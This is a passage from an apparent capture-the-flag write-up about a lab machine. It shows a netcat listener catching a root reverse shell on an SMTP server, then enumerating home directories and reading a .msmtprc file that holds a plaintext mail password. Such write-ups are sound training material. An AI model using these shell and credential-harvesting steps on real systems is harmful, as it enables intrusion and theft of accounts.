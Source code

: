 We successfully send the payload to the server. Checking on our nc-listener, we got a reverse-shell connection:

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.224.
Ncat: Connection from 10.10.10.224:58672.
bash: cannot set terminal process group (47): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~#
```

We successfully get a shell as root on the SMTP server and can now start enumerating the system.

## Privesc - user

Now that we have access to the SMTP server, let us enumerate the system in order to gain information that will help us with further lateral movement.

### Enumerating SMTP.REALCORP.HTB

Let us start by enumerating all users on the machine:

```bash
root@smtp:/home# ls -alh
total 0
drwxr-xr-x. 1 root       root       24 Dec  8 10:56 .
drwxr-xr-x. 1 root       root       96 Dec  8 18:50 ..
drwxr-xr-x. 1 j.nakazawa j.nakazawa 59 Dec  9 12:31 j.nakazawa
```

Seems like the only user on this system is `j.nakazawa`. Let us check out his home-folder.

```bash
root@smtp:/home/j.nakazawa# ls -alh
total 16K
drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Dec  9 12:31 .
drwxr-xr-x. 1 root       root         24 Dec  8 10:56 ..
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .bash_history -> /dev/null
-rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
-rw-r--r--. 1 j.nakazawa j.nakazawa 3.5K Apr 18  2019 .bashrc
-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8 19:12 .msmtprc
-rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .viminfo -> /dev/null
```

We spot an interesting file in the user's home-folder: `.msmtprc`. This is a configuration-file to use SMTP client. Let us check it for possible passwords.

```bash
root@smtp:/home/j.nakazawa# cat .msmtprc
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
```